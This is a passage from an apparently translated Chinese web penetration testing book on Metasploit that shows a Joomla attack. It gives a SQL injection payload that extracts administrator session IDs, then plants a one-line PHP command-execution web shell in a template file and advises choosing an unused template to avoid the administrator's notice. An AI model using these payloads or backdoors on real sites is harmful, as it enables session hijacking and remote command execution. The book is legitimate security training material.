 如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/c6cfd060-c8b2-466f-9284-9ebc8ca73aa8.png)

执行前述 SQL 负载`1`的结果如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/14d81c3c-c996-49d4-ae29-f0d8d387f41f.png)

现在，我们需要使用的第二个 SQL 会话负载如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,16,42) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/35074079-65cf-465d-b0fb-39a9517c5b64.png)

执行前述 SQL 负载`2`的结果如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/2c331c46-13d5-4910-99a2-242eb36e4c71.png)

现在，我们只需要将我们在前面步骤中通过执行负载`1`和`2`检索到的两个输出连接成一个。让我们将代码添加到模块中：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/9826aad9-f0ef-4aac-aea7-5c62a9216c64.png)

现在代码已经修改，让我们保存文件并执行模块，看看是否有效：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/3c526dd4-ffc5-4a95-adfa-02a201b87b07.png)

如我们从前面的截图中所见，我们成功检索到了会话，并且使用存储在数据库中的会话，我们打开了一个 Meterpreter 会话！

# Joomla shell 上传

为了理解先前提到的漏洞中上传 shell 的位置，我们将从管理员面板手动上传一个基本的命令执行 shell。

利用后，一旦我们成功以管理员身份登录，我们可以从模板菜单中上传一个 shell。以下截图显示了 Joomla 的管理面板：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/0f3daf8f-deb5-43d1-865c-03c1ef5d159f.png)

从面板菜单中，我们点击 Extensions | Templates | Templates，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/eb7f8860-6a33-4368-9547-996a7f5fe653.png)

我们被重定向到模板页面，列出了当前上传的所有模板，包括当前使用的模板。最好不要触摸当前的模板，因为这可能会引起管理员注意到变化并发现我们的代码：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/7b30ff10-0af6-49fd-bc55-c8b4cb80fed2.png)

前面的截图显示了模板列表。我们将选择 Protostar，因此点击模板，然后将被重定向到下一页，在左侧列出了所有模板的 PHP 页面，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/b1bb9f06-3347-4e52-8e4d-43f2a1dd4b3f.png)

我们点击 index.php 并向文件添加我们自定义的 PHP 一行代码。这将充当后门，并允许我们执行系统级命令：

```
<?php passthru($GET['cmd']); ?>
```
